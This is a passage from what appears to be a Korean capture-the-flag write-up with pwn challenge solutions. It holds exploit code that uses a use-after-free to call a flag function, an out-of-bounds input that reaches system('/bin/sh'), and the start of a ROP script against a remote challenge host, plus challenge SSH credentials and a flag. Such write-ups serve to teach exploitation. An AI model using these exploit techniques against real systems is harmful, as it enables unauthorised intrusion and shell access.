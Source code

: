 ```python
go('V')
go('D')

go('C')
go('N')

go('C')
go('W')

s.sendline("A" + p64(leak))

go('V')
go('C')
s.interactive()
```

leak을 주니까 leak하고 uaf이용해서 get_flag 함수 불러주면 된다.

flag : dimi{Cpp_1s_e@5y_and_d1ff1cult}



### what ( 902 p )

```
cat flag

ssh what@121.170.91.19 (password : what)
```



```
./what 4294901776 /bin/sh
```

- oob나서 값 잘 맞춰주면 system을 호출할 수 있다.

### treefrog  ( 940p )

```
nc 121.170.91.17 10101
DOWNLOAD
```



```python
from ntpwn import *

#s = process('./treefrog')
s = remote('121.170.91.17',10101)

def mp(pay):
	rpay = list(pay)
	rpay.reverse()
	return "".join(rpay)

'''
sc = list()
sc.append('b *0x400650')
sc.append('c')
sc = makesc(sc)
'''

e = ELF('./treefrog')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

prdi = 0x00000000004006c3
pprsi = 0x00000000004006c1
```